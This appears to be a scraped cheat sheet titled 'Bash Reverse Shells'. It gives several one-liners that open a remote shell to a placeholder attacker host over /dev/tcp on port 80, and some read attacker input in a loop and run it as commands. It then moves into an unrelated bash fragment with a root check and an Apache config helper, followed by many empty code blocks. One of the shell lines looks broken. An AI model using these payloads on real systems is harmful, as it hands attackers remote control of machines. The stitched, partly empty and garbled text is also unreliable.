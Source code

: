 # Bash Reverse Shells

```
exec /bin/bash 0&0 2>&0

```
```

0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196

```
```
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done  

# or:

while read line 0<&5; do $line 2>&5 >&5; done
```

#

```
#!/bin/bash

###### CONFIG
ACCEPTED_HOSTS="/root/.hag_accepted.conf"
BE_VERBOSE=false

if [ "$UID" -ne 0 ]
then
 echo "Superuser rights required"
 exit 2
fi

genApacheConf(){
 echo -e "# Host ${HOME_DIR}$1/$2 :"
}

echo '"quoted"' | tr -d \" > text.txt

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```
